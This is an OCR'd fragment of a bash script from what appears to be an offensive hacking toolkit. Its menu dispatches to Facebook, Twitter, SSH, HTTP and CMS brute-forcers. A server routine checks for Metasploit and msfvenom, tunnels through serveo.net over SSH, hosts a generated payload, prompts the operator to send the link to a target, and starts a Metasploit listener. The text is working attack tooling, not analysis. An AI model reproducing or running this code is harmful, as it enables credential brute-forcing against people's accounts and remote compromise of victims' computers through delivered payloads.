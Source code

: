 elif [[ $option_brute == 2 || $option_brute == 02 ]]; then
dir_ift="tools/face/"
file_ift="facebash.sh"
menu_ift
elif [[ $option_brute == 3 || $option_brute == 03 ]]; then
dir_ift="tools/tweet/"
file_ift="tweetshell.sh"
menu_ift
elif [[ $option_brute == 4 || $option_brute == 04 ]]; then
menu_ssh
elif [[ $option_brute == 5 || $option_brute == 05 ]]; then
menu_http
elif [[ $option_brute == 6 || $option_brute == 06 ]]; then
dir_ift="tools/brutecms/"
file_ift="brutecms.sh"
menu_ift
elif [[ $option_brute == 99 ]]; then
clear
menu
else
printf "\e[1;93m[\e[1;77m!\e[0m\e[1;93m] Invalid option!\e[0m"
sleep 0.5
clear
menu_bruteforcers
fi



}

dependencies_payload() {

command -v msfconsole > /dev/null 2>&1 || { echo >&2 "I require Metasploit but it's not installed. Install it. Aborting."; exit 1; }
command -v msfvenom > /dev/null 2>&1 || { echo >&2 "I require MSFVenom but it's not installed. Install it. Aborting."; exit 1; }
command -v php > /dev/null 2>&1 || { echo >&2 "I require php but it's not installed. Install it. Aborting."; exit 1; }
command -v ssh > /dev/null 2>&1 || { echo >&2 "I require ssh but it's not installed. Install it. Aborting."; 
exit 1; }


}
server() {
chmod +x $payload_name*
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Starting server...\e[0m\n"
ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R 80:localhost:$port serveo.net -R $default_port3:localhost:$lport 2> /dev/null &
sleep 3
printf '\n\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Send the first link to target + /%s%s:\e[0m\e[1;77m \n' $payload_name $format
php -S localhost:$port > /dev/null 2>&1 &
sleep 3
printf "\n"
printf '\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Starting MSF Listener...\e[0m\n'
printf "\n"
#nc -lvp $default_port2
